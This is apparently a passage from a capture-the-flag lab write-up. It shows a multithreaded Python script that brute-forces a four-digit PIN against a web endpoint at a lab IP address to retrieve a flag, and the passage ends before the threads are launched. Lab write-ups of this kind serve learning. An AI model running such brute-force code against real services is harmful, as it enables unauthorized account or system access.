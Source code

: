 The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213134207.png)

Let's use the python script provided to us, let's modify it a bit for it to run faster:

```python
import requests
import threading
from queue import Queue

ip = "94.237.54.164"
port = 35008
NUM_THREADS = 20  # Adjust this based on your network capacity

# Shared resources
pin_queue = Queue()
found_event = threading.Event()
print_lock = threading.Lock()

def worker():
    while not found_event.is_set():
        try:
            pin = pin_queue.get_nowait()
        except:
            break

        formatted_pin = f"{pin:04d}"
        
        # Only print every 100 attempts to reduce output noise
        if pin % 100 == 0:
            with print_lock:
                print(f"Testing PIN: {formatted_pin}")

        try:
            response = requests.get(
                f"http://{ip}:{port}/pin?pin={formatted_pin}",
                timeout=5  # Add timeout to prevent hanging
            )
            
            if response.ok and 'flag' in response.json():
                with print_lock:
                    print(f"\n[+] Correct PIN found: {formatted_pin}")
                    print(f"[+] Flag: {response.json()['flag']}")
                found_event.set()
                break

        except Exception as e:
            pass  # Handle any request errors silently
        
        pin_queue.task_done()

# Fill the queue with all possible PINs
for pin in range(10000):
    pin_queue.put(pin)

# Create and start threads
threads = []
```